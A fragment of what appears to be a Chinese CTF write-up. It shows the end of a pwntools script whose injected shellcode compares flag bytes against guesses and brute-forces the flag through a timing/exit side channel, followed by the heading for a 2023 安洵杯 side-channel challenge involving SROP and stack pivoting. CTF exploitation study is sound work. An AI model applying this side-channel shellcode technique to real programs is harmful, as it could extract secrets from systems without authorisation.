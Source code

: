 ```plain
        syscall
        mov dl, byte ptr [rsi+{}]
        mov cl, {}
        cmp cl,dl
        jz loop
        mov al,60
        syscall
        loop:
        jmp loop
        '''.format(dis,char))
    p.send(shellcode)

flag = ""

for i in range(len(flag),35):
    sleep(1)
    log.success("flag : {}".format(flag))
    for j in range(0x20,0x80):
        p = process('./pwn')
        try:
            exp(i,j)
            p.recvline(timeout=1)
            flag += chr(j)
            p.send('\n')
            log.success("{} pos : {} success".format(i,chr(j)))
            p.close()
            break
        except:           
            p.close()
```

## 2023 安洵杯 side\_channel ,initiate!

### 思路

这个题目同样也是侧信道爆破，不过里面涉及srop和栈迁移的知识  
[![](assets/1703640353-a4f099b3dde257e68236db293177ce1c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191845-5e652152-a317-1.png)
